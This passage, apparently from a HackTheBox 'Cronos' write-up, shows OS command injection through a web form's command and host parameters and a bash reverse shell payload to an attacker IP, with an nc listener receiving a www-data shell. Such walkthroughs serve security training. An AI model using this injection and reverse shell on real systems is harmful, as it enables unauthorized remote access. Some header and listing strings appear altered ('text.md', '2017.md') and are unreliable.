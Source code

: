 

    POST /welcome.php HTTP/1.1
    Host: admin.cronos.htb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://admin.cronos.htb/welcome.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 34
    Connection: close
    Cookie: PHPSESSID=fvt6rfuuoh069o763u89rhphr1
    Upgrade-Insecure-Requests: 1

    command=ping+-c+1&host=10.10.14.24



It seems that the webserver is likely taking the command and the host
and concatenating them together and then executing it. If that's true, I
can probably inject into either parameter. I'll send that request over
to repeater, and set the POST parameters to:



    command=ls -l&host=/var/www



The response includes:



    drwxr-xr-x  2 www-data www-data 4096 Jul 27  2017 admin<br>
    drwxr-xr-x  2 www-data www-data 4096 Jul 27  2017.md<br>
    drwxr-xr-x 13 www-data www-data 4096 Apr  9  2017 laravel<br>



### Shell

To turn that command injection into a shell, I'll just give it a reverse
shell payload:



    command=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.24/443+0>%261'%26host=



And catch a shell on a `nc` listener:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.13.
    Ncat: Connection from 10.10.10.13:36196.
    bash: cannot set terminal process group (1388): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@cronos:/var/www/admin$
